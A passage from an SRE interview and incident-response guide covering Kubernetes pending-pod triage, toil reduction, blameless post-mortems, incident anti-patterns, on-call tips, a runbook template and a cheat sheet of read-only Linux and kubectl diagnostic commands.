     - If LB shows fast upstream but client sees slow response: network between LB and client
  3. **Server-side:** Check application latency metrics (p50, p95, p99)
     - If server metrics show fast responses: the slowness is in the network path
  4. **Network diagnostics:**
     - `mtr -rn <destination>` from server to client -- check for loss or high latency at any hop
     - `tcpdump -i eth0 -w capture.pcap` -- analyze TCP retransmissions, window size, RTT in Wireshark
     - `ss -ti` -- check TCP RTT, retransmissions, and congestion window for active connections

---

#### Q14: Your Kubernetes cluster is healthy but pods are stuck in Pending state. What do you investigate?

1. `kubectl describe pod <pod>` -- read the Events section for the scheduler's message
2. **Insufficient resources:** "0/100 nodes available: insufficient cpu/memory" -- check `kubectl top nodes` and node capacity
3. **Node selectors/affinity/taints:** "0/100 nodes available: 50 node(s) didn't match node selector, 50 had taint..." -- check pod spec affinity rules and node taints
4. **PVC binding:** "pod has unbound immediate PersistentVolumeClaims" -- check `kubectl get pvc` and storage provisioner health
5. **Resource quotas:** "exceeded quota" -- check `kubectl describe resourcequota -n <namespace>`
6. **Pod disruption budget:** Evictions blocked by PDB -- check `kubectl get pdb`
7. **Scheduler health:** `kubectl get pods -n kube-system | grep scheduler` -- is the scheduler running?
8. **Priority and preemption:** Higher-priority pods may be preempting lower-priority ones -- check `priorityClassName`

---

#### Q15: Describe your approach to reducing toil on an SRE team.

1. **Measure it:** Classify all operational work. If it is manual, repetitive, automatable, reactive, and scales with service size, it is toil
2. **Quantify it:** Track the percentage of team time spent on toil. Google's guideline: target <50%
3. **Prioritize by ROI:**
   - High-frequency, low-complexity toil: automate first (e.g., certificate renewal, disk cleanup, log rotation fixes)
   - Low-frequency, high-complexity toil: write runbooks first, automate later
4. **Automation strategies:**
   - Self-healing systems: auto-restart, auto-scale, auto-remediate known failure modes
   - ChatOps: codify common operations as Slack commands with approval workflows
   - GitOps: all infrastructure changes via pull requests, eliminating manual kubectl/ssh operations
5. **Organizational strategies:**
   - Embed SRE in service development: teams that build it, run it (shared ownership)
   - Toil budgets per team: if a service generates too much operational toil, it gets an engineering allocation to fix it
   - Regular toil reviews as part of sprint planning

---

#### Q16: How would you handle a situation where a post-mortem reveals the root cause was a colleague's mistake?

- **The incident is never one person's fault.** A blameless post-mortem asks:
  1. What system allowed the mistake to have impact? (Missing guardrails, no canary, no rollback)
  2. What information was the person missing? (Insufficient documentation, unclear process)
  3. What automation would have caught or prevented this? (Tests, linting, policy-as-code)
  4. What cultural pressure contributed? (Deadline pressure to skip review, normalized deviance)

- **In the post-mortem document:**
  - Never name individuals in the root cause analysis
  - Use role-based language: "the deployer" not "John"
  - Frame the action items as systemic improvements: "Add deployment canary phase" not "Train John to deploy correctly"

- **If the pattern repeats:**
  - Escalate the systemic issue, not the individual: the system is failing to prevent recurrence
  - Invest in tooling, guardrails, and automation -- these scale; human vigilance does not

---

## 7. Anti-Patterns in Incident Response

### Anti-Pattern 1: The Hero Culture
- **What it looks like:** One person always saves the day. They are the only one who can fix the system. They are paged for every incident regardless of severity.
- **Why it fails:** Single point of failure. The hero burns out, leaves, or is unavailable. Knowledge is not distributed. Other team members never develop incident skills.
- **Fix:** Enforce rotation. Pair junior on-call with senior on-call (shadow rotation). Write runbooks that transfer knowledge from the hero's head to documentation.

### Anti-Pattern 2: Premature Root Cause Analysis During Active Incident
- **What it looks like:** The incident is actively impacting users, but the team is debugging rather than mitigating. "Let's figure out why before we roll back."
- **Why it fails:** Every minute spent investigating is a minute of user impact. Root cause analysis is important but it belongs in the post-mortem, not the war room.
- **Fix:** Strict separation of mitigation and investigation. The Incident Commander's job is to ask: "Have we mitigated user impact?" If no, all effort goes to mitigation.

### Anti-Pattern 3: Alert Fatigue Normalization
- **What it looks like:** The on-call rotation receives 50+ alerts per week. Most are "known issues" that auto-resolve. The team stops investigating alerts promptly because "it's probably nothing."
- **Why it fails:** When a real incident fires, it is lost in the noise. The CrowdStrike 2024 outage showed that even major failures can be initially dismissed as "another transient alert."
- **Fix:** Every alert that fires must either be actionable or be deleted/tuned. Target: <5 pages per on-call shift. Track alert-to-action ratio.

### Anti-Pattern 4: The Blameful Post-Mortem
- **What it looks like:** Post-mortems name individuals, assign blame, or result in punitive action. "This happened because the developer did not test properly."
- **Why it fails:** People stop reporting incidents. Near-misses go unexamined. The team optimizes for hiding mistakes rather than improving systems.
- **Fix:** Institutional commitment to blameless culture. Post-mortem review is facilitated, not interrogative. Action items target systems, not people.

### Anti-Pattern 5: Rollback Phobia
- **What it looks like:** "We can't roll back because the database migration already ran." "We can't roll back because the new format is incompatible."
- **Why it fails:** Every non-rollbackable deployment is a one-way door that increases the blast radius of failures.
- **Fix:** Design every deployment to be rollback-safe. Database migrations must be backward-compatible (expand-migrate-contract pattern). Feature flags decouple deployment from release.

### Anti-Pattern 6: The Infinite Retry Loop
- **What it looks like:** A client retries a failed request immediately, without backoff, bounded retries, or circuit breaking. Under load, the retries amplify the failure.
- **Why it fails:** The downstream service is already struggling. Immediate retries add load, making recovery harder. This is the "thundering herd" amplification pattern.
- **Fix:** Exponential backoff with jitter (random delay). Bounded retry count. Circuit breaker pattern. Client-side load shedding.

### Anti-Pattern 7: Monitoring the Infrastructure but Not the User Experience
- **What it looks like:** All dashboards are green (CPU, memory, disk, network all nominal) but users are experiencing errors and high latency.
- **Why it fails:** Infrastructure metrics measure resource availability, not user experience. A service can have 10% CPU utilization and still be returning 500 errors due to a logic bug or configuration error.
- **Fix:** SLIs must measure user-perceived behavior (request success rate, latency, correctness). Infrastructure metrics are useful for investigation, not for defining service health.

---

## 8. Pro Tips for On-Call and Incident Management

### On-Call Effectiveness

1. **The first 5 commands:** When paged, always run the same initial sequence: `uptime`, `dmesg -T | tail -30`, `free -h`, `df -h`, `ss -s`. This takes 15 seconds and covers 80% of triage.

2. **Automate your triage:** Create a script (`/usr/local/bin/incident-triage.sh`) that runs all initial diagnostic commands and outputs a formatted summary. When you are woken at 3 AM, you do not want to remember commands.

3. **The 15-minute rule:** If you cannot identify the mitigation path within 15 minutes, escalate. Escalation is not failure -- it is a standard operating procedure.

4. **Communicate in facts, not speculation:** "Error rate is 45% and rising, affecting the checkout flow" is useful. "I think the database might be slow" is not. Every status update should include: what is known, what is being done, and when the next update will be.

5. **The rollback default:** If a deployment happened in the last 2 hours and correlation is plausible, roll back first. You can always re-deploy; you cannot un-impact users.

### Post-Mortem Excellence

6. **Write the timeline first.** Reconstruct the minute-by-minute sequence of events before analyzing causes. The timeline often reveals the root cause without further analysis.

7. **Track action item completion rate.** A post-mortem with unresolved action items is worse than no post-mortem -- it creates the illusion of improvement without the substance.

8. **Share post-mortems broadly.** Publish them to an internal wiki or mailing list. Other teams learn from your incidents, and visibility creates accountability for follow-through.

### Architecture for Resilience

9. **Design for partial failure.** Every inter-service call must have a timeout, a retry policy with backoff, a circuit breaker, and a fallback. If any of these four are missing, the service is not production-ready.

10. **Test your failover.** A failover mechanism that has never been tested is a failover mechanism that does not work. Schedule quarterly failover drills. Netflix's Chaos Monkey is famous not because it breaks things, but because it proves that things can break without impacting users.

11. **Separate control plane from data plane.** Configuration changes (control plane) should never be able to take down active traffic (data plane). The Cloudflare November 2025 outage was caused by a configuration file change that propagated to the data plane, demonstrating why this separation is critical.

12. **Monitor the monitors.** If your monitoring system goes down, you are flying blind. The monitoring system itself needs an independent health check (a "dead man's switch" that alerts if it stops sending heartbeats).

---

## 9. Cheatsheet -- Incident Response Runbook Template

### Incident Response Quick Reference

```
================================
INCIDENT RESPONSE RUNBOOK
================================

PHASE 1: DETECT & ACKNOWLEDGE (0-5 min)
----------------------------------------
[ ] Acknowledge page within 5 minutes
[ ] Open incident channel (#inc-YYYYMMDD-description)
[ ] Start incident document (copy template)
[ ] Assign roles: IC (Incident Commander), OC (On-Call), Comms Lead

PHASE 2: TRIAGE (5-15 min)
----------------------------------------
[ ] Identify affected service(s) and user impact
[ ] Classify severity (SEV1/SEV2/SEV3)
[ ] Run initial diagnostics:
    uptime && dmesg -T | tail -30 && free -h && df -h && ss -s
[ ] Check recent deployments (last 2 hours)
[ ] Check dependency health (dashboards, status pages)

PHASE 3: MITIGATE (15-60 min)
----------------------------------------
[ ] If recent deploy: ROLLBACK NOW
[ ] If dependency failure: enable circuit breakers, failover
[ ] If traffic spike: enable rate limiting, auto-scale
[ ] If host issue: drain traffic from affected hosts
[ ] If unknown: apply most reversible mitigation available
[ ] Verify SLIs improving after mitigation

PHASE 4: COMMUNICATE (ongoing, every 30 min)
----------------------------------------
[ ] Post status update to stakeholders
    Format: IMPACT | CURRENT STATUS | NEXT STEPS | ETA
[ ] Update status page (if user-facing)
[ ] Notify dependent teams

PHASE 5: RESOLVE (after mitigation stable)
----------------------------------------
[ ] Confirm SLIs within SLO for 15+ minutes
[ ] Apply permanent fix (if different from mitigation)
[ ] Declare incident resolved in channel
[ ] Close incident document with resolution summary

PHASE 6: POST-MORTEM (within 72 hours)
----------------------------------------
[ ] Assign post-mortem owner
[ ] Write blameless post-mortem:
    - Timeline (minute-by-minute)
    - Root cause (5 Whys)
    - Contributing factors
    - Impact (duration, users, SLO budget consumed)
    - What went well / what didn't
    - Action items (owner + deadline for each)
[ ] Schedule post-mortem review meeting
[ ] Track action items to completion
```

### Severity Classification Quick Reference

```
SEV1: Complete outage or data loss risk
  - Page immediately, IC required
  - Status updates every 15 min
  - Post-mortem mandatory within 48 hours

SEV2: Significant degradation, partial outage
  - Page immediately
  - Status updates every 30 min
  - Post-mortem mandatory within 72 hours

SEV3: Minor degradation with workaround
  - Ticket, respond within 4 hours
  - Status updates daily
  - Post-mortem recommended

SEV4: Cosmetic or non-impacting issue
  - Ticket, respond within 1 business day
  - No post-mortem required
```

### Key Metrics to Track

```
MTTD (Mean Time to Detect)        Target: < 5 min
MTTM (Mean Time to Mitigate)      Target: < 15 min
MTTR (Mean Time to Resolve)       Target: < 4 hours
MTBF (Mean Time Between Failures) Target: increasing quarter-over-quarter
Error Budget Burn Rate             Alert: > 2% consumed in 1 hour
On-Call Page Rate                  Target: < 2 pages per 12-hour shift
Post-Mortem Action Item Completion Target: 100% within 30 days
```

### Incident Diagnostic Commands Cheat Sheet

```bash
# === SYSTEM OVERVIEW ===
uptime                                # Load average
dmesg -T | tail -50                   # Kernel messages
journalctl -p err --since "30m ago"   # Recent errors

# === CPU ===
top -bn1 | head -20                   # Top processes
mpstat -P ALL 1 3                     # Per-CPU stats
pidstat -u 1 5                        # Per-process CPU

# === MEMORY ===
free -h                               # Memory summary
vmstat 1 5                            # Swap and paging activity
slabtop -o | head -15                 # Kernel slab cache
cat /proc/meminfo | grep -E "MemAvail|SwapFree|Committed"

# === DISK ===
iostat -xz 1 3                        # I/O latency and throughput
df -h && df -i                         # Space and inode usage
iotop -bon1 | head -15                 # Per-process I/O

# === NETWORK ===
ss -s                                  # Socket summary
ss -tnp                                # TCP connections with processes
ip -s link                             # Interface stats and errors
ethtool -S eth0 | grep -i "error\|drop"  # NIC hardware errors
conntrack -L 2>/dev/null | wc -l       # Conntrack table size

# === PROCESS ===
ps aux --sort=-%mem | head -15         # Top memory consumers
ps aux --sort=-%cpu | head -15         # Top CPU consumers
ps -eo stat,pid,ppid,cmd | grep "^[ZD]"  # Zombies and D-state

# === KUBERNETES ===
kubectl get events --sort-by='.lastTimestamp' | tail -20
kubectl top pods --sort-by=memory -A | head -20
kubectl describe pod <pod> | tail -30   # Events section
kubectl logs <pod> --tail=100 --previous  # Previous crash logs
```
